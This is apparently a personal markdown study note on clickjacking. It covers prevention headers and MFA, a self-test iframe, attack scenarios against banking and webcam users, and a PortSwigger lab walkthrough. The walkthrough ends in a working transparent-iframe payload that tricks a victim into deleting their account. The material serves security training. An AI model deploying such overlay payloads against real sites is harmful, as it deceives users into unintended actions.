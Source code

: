 clickjacking: https://portswigger.net/web-security/clickjacking#what-is-clickjacking

Labs path:  https://portswigger.net/web-security/all-labs#clickjacking

### clickjacking preventions :- 
implement security headers like CSP, X-Frame-Options, implement click confirmation popup(Add a confirmation prompt before performing sensitive actions. eg: allow microphone popup or payment confirmation popup ), 
**Re-authentication for Critical Actions**  Ask users to enter their password before performing sensitive actions. 
**Multi-Factor Authentication (MFA)**  Prevent unauthorized actions by requiring an additional verification step.   
**JavaScript frame-busting** can be an additional layer of security.This script checks if the page is loaded inside an iframe and removes the content if it is.

**Testing Clickjacking Vulnerabilities**
To check if your site is vulnerable:
```
<iframe src="https://yourwebsite.com" width="800" height="600"></iframe>
```
1. Create a simple HTML file that embeds your site in an **iframe**:
2. Open this file in a browser.
3. If your site loads inside the iframe, it's vulnerable. If it refuses to load, your protection is working.




### **Scenario 1: Stealing Credentials via Fake Login Page**

**Target:** Online Banking Users  
**Attack:**

1. The attacker creates a malicious website offering a free gift card.
2. The legitimate online banking login page is loaded inside an **invisible iframe**.
3. The attacker places a **fake login form** on top of the iframe, perfectly aligning with the original login fields.
4. When users try to enter their **username and password**, they are actually typing into the **attacker’s form**, which captures the credentials before redirecting the request to the bank’s original form to avoid suspicion.

**Impact:** The attacker steals login credentials, enabling unauthorized access to victims’ bank accounts.

---

### **Scenario 2: Unintended Money Transfer via Clickjacking**

**Target:** Users Authenticated to a Payment Website  
**Attack:**

1. The victim is already logged into their **payment portal** (e.g., PayPal, banking site).
2. The attacker sends the victim a link to an online quiz or a game, where the "Next" button is actually an **invisible transfer button** overlaid from the banking site (via iframe).
3. When the user clicks “Next” or any button in the game, it triggers a **hidden money transfer request**.

**Impact:** The victim unknowingly transfers money to the attacker’s account while believing they are just playing a game.

---

### **Scenario 3: Enabling Webcam & Microphone Access via Clickjacking**

**Target:** Users with Webcams (Google Meet, Zoom, etc.)  
**Attack:**

1. The attacker creates a fake **"Click to Watch Free Video"** page.
2. A transparent **iframe** of the browser’s camera/microphone permission popup is placed exactly over the "Play" button.
3. When the victim clicks "Play," they are unknowingly clicking the **"Allow Camera/Microphone"** button instead.
4. The attacker now has full access to the victim’s webcam and microphone.

**Impact:** The attacker can **spy on the victim** and capture sensitive conversations or footage.

# 1)Lab: Basic clickjacking with CSRF token protection

Lab: https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected
Lab Vid: https://www.youtube.com/watch?v=_tz0O5-cndE&ab_channel=Intigriti (at 5:35 min the conclusion of the lab explained)

This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.

To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

You can log in to your own account using the following credentials: `wiener:peter`


#### Note

The victim will be using Chrome so test your exploit on that browser.


#### Solution
1. Log in to your account on the target website.
2. Go to the exploit server and paste the following HTML template into the **Body** section:
```
<style> iframe { position:relative; width:$width_value; height: $height_value; opacity: $opacity; z-index: 2; } div { position:absolute; top:$top_value; left:$side_value; z-index: 1; } </style> <div>Test me</div> <iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

1. Make the following adjustments to the template:
    - Replace `YOUR-LAB-ID` in the iframe `src` attribute with your unique lab ID.
    - Substitute suitable pixel values for the `$height_value` and `$width_value` variables of the iframe (we suggest 700px and 500px respectively).
    - Substitute suitable pixel values for the `$top_value` and `$side_value` variables of the decoy web content so that the "Delete account" button and the "Test me" decoy action align (we suggest 300px and 60px respectively).
    - Set the opacity value `$opacity` to ensure that the target iframe is transparent. Initially, use an opacity of 0.1 so that you can align the iframe actions and adjust the position values as necessary. For the submitted attack a value of 0.0001 will work.
2. Click **Store** and then **View exploit**.
3. Hover over **Test me** and ensure the cursor changes to a hand indicating that the div element is positioned correctly. **Do not actually click the "Delete account" button yourself.** If you do, the lab will be broken and you will need to wait until it resets to try again (about 20 minutes). If the div does not line up properly, adjust the `top` and `left` properties of the style sheet.
4. Once you have the div element lined up correctly, change "Test me" to "Click me" and click **Store**.
5. Click on **Deliver exploit to victim** and the lab should be solved.

**Analysis:**
iframe:- https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe

CSS:- https://developer.mozilla.org/en-US/docs/Web/CSS

==click jacking code:==  for this lab
```
<style>

iframe{
position:relative;
        width:1000px;
        height: 700px;
        opacity: 0.0001;
        z-index: 2;

}
div{
Position:absolute;
top:515px;
left:60px;
z-index: 1;
}
</style>
<div>Click me</div>
<iframe src= "https://0aed002e0411e037808830210079002f.web-security-academy.net/my-account"></iframe>
```
